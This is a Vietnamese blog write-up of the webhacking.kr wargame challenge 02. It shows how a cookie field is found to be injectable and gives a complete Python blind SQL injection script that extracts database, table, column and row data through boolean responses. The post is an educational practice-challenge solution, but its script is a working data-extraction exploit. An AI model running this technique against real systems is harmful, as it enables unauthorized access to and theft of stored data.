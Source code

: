 ```yaml
---
layout: post
title:  "webhacking.kr Chall02"
date:   2025-07-28 22:52:00 +0700
tags: Writeup webhacking.kr Sqli
categories: jekyll update
---
```


# Chall02 

## Giao diện web 

![image](https://hackmd.io/_uploads/H1EsXfrwxl.png)

## Khai thác 

Đầu tiên mình cần check source của web này: 

![image](https://hackmd.io/_uploads/HJE2mMSvxx.png)

Tìm ra được 1 endpoint => `admin.php` 

![image](https://hackmd.io/_uploads/S1007frvll.png)

Chỗ này yêu cầu nhập 1 password. Vậy có thể là SQLi, nhưng khi thử các payload như `'` và `"` đều không thể hoạt động. 

Nhưng mình kiểm tra trong phần cookie thì có các trường như sau: 

![image](https://hackmd.io/_uploads/BkqOVGHPee.png)

Vậy trường này thì có thay đổi gì không ???

Ban đầu, chưa chỉnh sửa thì nó như này: 

![image](https://hackmd.io/_uploads/H1KxtzrPxx.png)

Nên mình sẽ thay đổi nó thành `2025` thử. 

![image](https://hackmd.io/_uploads/HyoWKMrweg.png)

Như vậy thì hoàn toàn có thể thay đổi của trường này. Nên mình tiếp tục thử thay đổi thành `True` và `False` rồi xem có gì thay đổi ko. 

- Nếu inject `True` thì: 
![image](https://hackmd.io/_uploads/BkljcMrDle.png)

- Nếu inject `False` thì: 
![image](https://hackmd.io/_uploads/B1Z65fBPxe.png)

Từ đây, cũng đủ dữ kiện đã viết 1 script để xác định password thông qua blind Sqli. 

```python
import requests 
import sys 

url = "https://webhacking.kr/challenge/web-02/"
cookies_base = {
    "PHPSESSID": "vm8p1rs0kiduc21e44e4m0k8b9",
}

db_length = 0
for i in range(1, 20):
    payload = f"(LENGTH((SELECT DATABASE()))) = {i}"
    cookie = cookies_base.copy()
    cookie['time'] = payload 
    res = requests.get(url, cookies=cookie)
    if "2070-01-01 09:00:01" in res.text:
        db_length = i 
        print(f"Độ dài của tên cơ sở dữ liệu là: {db_length}")
        break 

db_name = ""
for i in range(1, db_length + 1):
    left = 32 
    right = 126 
    while left <= right: 
        mid = (left + right) // 2 
        payload = f"(ASCII(SUBSTRING((SELECT DATABASE()), {i}, 1)) > {mid})"
        cookie = cookies_base.copy()
        cookie['time'] = payload 
        res = requests.get(url, cookies=cookie)
        if "2070-01-01 09:00:01" in res.text:
            left = mid + 1 
        else:
            right = mid - 1

    db_name += chr(left) 
    sys.stdout.write('\rTên của db hiện tại: ' + db_name)
    sys.stdout.flush()

table_length = 0 
for i in range(1, 20):
    payload = f"(LENGTH((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'))) = {i}"
    cookie = cookies_base.copy()
    cookie['time'] = payload 
    res = requests.get(url, cookies=cookie)
    if "2070-01-01 09:00:01" in res.text:
        table_length = i 
        # print(f"\nĐộ dài của tên table là: {table_length}")
        break

# print("\nĐang lấy danh sách các table...")
table_names = ""
for i in range(1, table_length + 1):
    left = 32 
    right = 126 
    while left <= right: 
        mid = (left + right) // 2 
        payload = f"(ASCII(SUBSTRING((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'), {i}, 1)) > {mid})"
        cookie = cookies_base.copy()
        cookie['time'] = payload 
        res = requests.get(url, cookies=cookie)
        if "2070-01-01 09:00:01" in res.text:
            left = mid + 1 
        else:
            right = mid - 1

    table_names += chr(left) 
    # sys.stdout.write('\rĐã lấy: ' + table_names)
    # sys.stdout.flush()

print("\n\nDanh sách các table:")
table_name = table_names.split(",")
for idx, name in enumerate(table_name):
    print(f"{idx + 1}. {name}")    
while True:
    try:
        choice = int(input("Chọn table để lấy data (nhập số): ")) - 1
        if 0 <= choice < len(table_name):
            selected_table = table_name[choice]
            break
        else:
            print("Vui lòng nhập một số trong khoảng từ 1 đến", len(table_name)) 
    except ValueError:
        print("Vui lòng nhập một số nguyên.")

print(f"\nĐang lấy danh sách các cột trong bảng {selected_table}...")
column_length = 0 
for i in range(1, 20): 
    payload = f"(LENGTH((SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = '{selected_table}'))) = {i}"
    cookie = cookies_base.copy()
    cookie['time'] = payload 
    res = requests.get(url, cookies=cookie)
    if "2070-01-01 09:00:01" in res.text:
        column_length = i
        break

# print("\nĐang lấy danh sách các cột...")
column_names = ""
for i in range(1, column_length + 1):
    left = 32 
    right = 126 
    while left <= right: 
        mid = (left + right) // 2 
        payload = f"(ASCII(SUBSTRING((SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = '{selected_table}'), {i}, 1)) > {mid})"
        cookie = cookies_base.copy()
        cookie['time'] = payload 
        res = requests.get(url, cookies=cookie)
        if "2070-01-01 09:00:01" in res.text:
            left = mid + 1 
        else:
            right = mid - 1

    column_names += chr(left) 
    # sys.stdout.write('\rĐã lấy: ' + column_names)
    # sys.stdout.flush()

print("\n\nDanh sách các cột:")
column_name = column_names.split(",")
for idx, name in enumerate(column_name):
    print(f"{idx + 1}. {name}")
while True:
    try:
        choice = int(input("Chọn cột để lấy data (nhập số): ")) - 1
        if 0 <= choice < len(column_name):
            selected_column = column_name[choice]
            break
        else:
            print("Vui lòng nhập một số trong khoảng từ 1 đến", len(column_name)) 
    except ValueError:
        print("Vui lòng nhập một số nguyên.")

print(f"\nĐang lấy dữ liệu từ bảng {selected_table} và cột {selected_column}...")

data_length = 0
for i in range(1, 20):
    payload = f"(LENGTH((SELECT GROUP_CONCAT({selected_column}) FROM {selected_table}))) = {i}"
    cookie = cookies_base.copy()
    cookie['time'] = payload 
    res = requests.get(url, cookies=cookie)
    if "2070-01-01 09:00:01" in res.text:
        data_length = i 
        break
data = ""
for i in range(1, data_length + 1):
    left = 32 
    right = 126
    while left <= right:
        mid = (left + right) // 2
        payload = f"(ASCII(SUBSTRING((SELECT {selected_column} FROM {selected_table}), {i}, 1))) > {mid}"
        cookie = cookies_base.copy()
        cookie['time'] = payload 
        res = requests.get(url, cookies=cookie)
        if "2070-01-01 09:00:01" in res.text:
            left = mid + 1 
        else:
            right = mid - 1
    data += chr(left)
    sys.stdout.write('\rĐã lấy: ' + data)
```

![image](https://hackmd.io/_uploads/SkJ5hzSwge.png)

![image](https://hackmd.io/_uploads/r1nihzHDel.png)

